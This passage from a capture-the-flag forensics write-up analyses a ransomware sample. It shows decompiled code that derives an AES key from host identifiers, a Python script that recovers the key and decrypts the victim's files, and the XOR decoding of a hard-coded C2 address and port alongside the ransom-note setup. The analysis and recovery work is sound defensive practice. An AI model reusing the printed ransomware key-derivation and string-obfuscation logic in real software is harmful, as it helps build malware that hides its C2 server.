  _mingw_snprintf(
    (char *)&g_KeySourceData,
    0x400uLL,
    "%s|%s|%s|%s|%s|%s",
    g_KeyComputerName,
    g_KeyUserName,
    (const char *)&g_KeyUserSID,
    g_KeyVolumeSerial,
    (const char *)&g_KeyMachineGUID,
    g_KeyPersistPath);
  v10 = BCryptOpenAlgorithmProvider(&phAlgorithm, "S", 0LL, 0);
  if ( v10 >= 0 )
  {
    v10 = BCryptCreateHash(phAlgorithm, &phHash, 0LL, 0, 0LL, 0, 0);
    if ( v10 >= 0 )
    {
      v0 = strlen((const char *)&g_KeySourceData);
      v10 = BCryptHashData(phHash, &g_KeySourceData, v0, 0);
      if ( v10 >= 0 )
      {
        v10 = BCryptFinishHash(phHash, pbOutput, 0x20u, 0);
        if ( v10 >= 0 )
        {
          g_RawAESKey = *(_QWORD *)pbOutput;
          qword_140013D08 = v7;
          v11 = 1;
        }
      }
    }
  }
  if ( phHash )
    BCryptDestroyHash(phHash);
  if ( phAlgorithm )
    BCryptCloseAlgorithmProvider(phAlgorithm, 0);
  RtlSecureZeroMemory(&g_KeySourceData, 0x400uLL);
  RtlSecureZeroMemory(pbOutput, 0x20uLL);
  return v11;
}
```

The goal of this function is to generate a 16-byte AES key (AES-128) based on the user's **"fingerprint"**. It collects the following information:

- ComputerName: `g_KeyComputerName`
- UserName: `g_KeyUserName`
- Current user's SID: `g_KeyUserSID`
- Volume serial for drive C: `g_KeyVolumeSerial` in the format `%08X`
- MachineGuid: `g_KeyMachineGUID`
- Temp Path and `g_PersistPath`: `g_KeyPersistPath`

To write a decryption program, we only need to gather the above information. And gathering it will be very easy when we already have the disk image:

- MachineGuid: `HKLM\SOFTWARE\Microsoft\Cryptography\MachineGuid`
- ComputerName: `HKLM\SYSTEM\ControlSet00X\Control\ComputerName\ActiveComputerName\ComputerName`
- UserName and SID: `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProfileList`
- Volume serial for drive C: **8 bytes** at offset `0x48` of the file `$Boot`
- TempPath: `HKCU\Environment\TEMP`
- PersistPath: `%sWindowsSecurityService.exe` (in variable `g_PersistPath`)

Therefore, we can write a script to **find the key** as follows:

```py
import hashlib
s = "DESKTOP-8DLHUJ4|employee|S-1-5-21-2194485576-443945188-1043422397-1001|E9F59FE0|dca5645e-d0dc-4f10-ac03-59fe070380cd|C:\\Users\\employee\\AppData\\Local\\Temp\\WindowsSecurityService.exe"
print(hashlib.sha256(s.encode()).digest()[:16].hex())

# da67fc3366bbe437aec7163db7fc2b74
```

Next is the function to decrypt the encrypted file using the `.vsl` extension:

```py
#!/usr/bin/env python3
import argparse, struct, os
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

HDR = 0x44
MAX_CHUNK = 0x80000

def main():
    ap = argparse.ArgumentParser()
    ap.add_argument("infile")
    ap.add_argument("-o", "--out", required=True)
    ap.add_argument("--key-hex", required=True)
    args = ap.parse_args()

    key = bytes.fromhex(args.key_hex)
    if len(key) != 16:
        raise SystemExit("AES-128 key must be 16 bytes (32 hex chars)")

    data = open(args.infile, "rb").read()
    if len(data) < HDR:
        raise SystemExit("File too small")

    hdr = data[:HDR]
    mode = struct.unpack("<I", hdr[0x0C:0x10])[0]      # 1=full, 2=partial
    orig_size = struct.unpack("<I", hdr[0x10:0x14])[0]
    enc_len = struct.unpack("<I", hdr[0x14:0x18])[0]

    ct = data[HDR:HDR+enc_len]
    tail = data[HDR+enc_len:]

    cipher = AES.new(key, AES.MODE_ECB)
    pt = unpad(cipher.decrypt(ct), 16)

    expected = orig_size if mode == 1 else min(orig_size, MAX_CHUNK)
    pt = pt[:expected]

    out = (pt + tail)[:orig_size]
    open(args.out, "wb").write(out)

    print(f"[+] ok mode={mode} orig_size={orig_size} enc_len={enc_len}")

if __name__ == "__main__":
    main()
```

Decrypt the `ProjectFinal.vsl` file and you will get the flag:

```shell
$ strings MOCK_DATA.sql| grep "VSL"
insert into MOCK_DATA (id, first_name, last_name, email, gender, ip_address) values (700, 'VSL{y0u_c4n_f1nd_4nd_r3c0v3ry_1t_12112}', 'Pifford', 'ipiffordjf@huffingtonpost.com', 'Male', '91.246.75.218');
```

> `VSL{y0u_c4n_f1nd_4nd_r3c0v3ry_1t_12112}`

### Accidental 2

#### Description

After the encryption incident, I suspect that the attacker remotely executed commands on my computer. Please identify the IP address and port used to establish the remote connection.

#### Analysis Process

With this challenge, we no longer need to decrypt the encrypted file, but instead find the **C2 address** that the malware has set.

Looking at the pseudocode of `InitializeStrings()` function:

```c
int InitializeStrings()
{
  int result; // eax

  result = g_Initialized;
  if ( !g_Initialized )
  {
    strcpy((char *)&g_C2Host, "34+41+766+2=");
    XorDecode(&g_C2Host, 12LL, 5LL);
    strcpy((char *)&g_C2Port, "1111");
    XorDecode(&g_C2Port, 4LL, 5LL);
    result = _mingw_snprintf(
               g_RansomNote,
               0x800uLL,
               "========================================\n"
               "      YOUR FILES HAVE BEEN ENCRYPTED   \n"
               "           by VSL RANSOMWARE           \n"
               "========================================\n"
               "\n"
               "Victim ID: %%s\n"
               "\n"
               "All your documents, photos, databases\n"
               "have been encrypted with AES-128.\n"
               "Your files now have the %s extension.\n"
               "\n"
               "========================================\n",
               _data_start__);
    g_Initialized = 1;
  }
  return result;
}
```

Initially, it copies a seemingly meaningless string of characters to `g_C2Host` and `g_C2Port`. Then call `XorDecode(pt, len, key)` to decode it on the spot.

```c
unsigned __int64 __fastcall XorDecode(__int64 a1, unsigned __int64 a2, char a3)
{
  unsigned __int64 result; // rax
  unsigned __int64 i; // [rsp+8h] [rbp-8h]

  for ( i = 0LL; ; ++i )
  {
    result = i;
    if ( i >= a2 )
      break;
    *(_BYTE *)(a1 + i) ^= a3;
  }
  return result;
}
```

This `XorDecode()` function is an extremely simple **"in-place"** XOR operation with the **third parameter** as the key. Therefore, the corresponding C2 server would be: `61.14.233.78:4444`.

> `VSL{61.14.233.78:4444}`
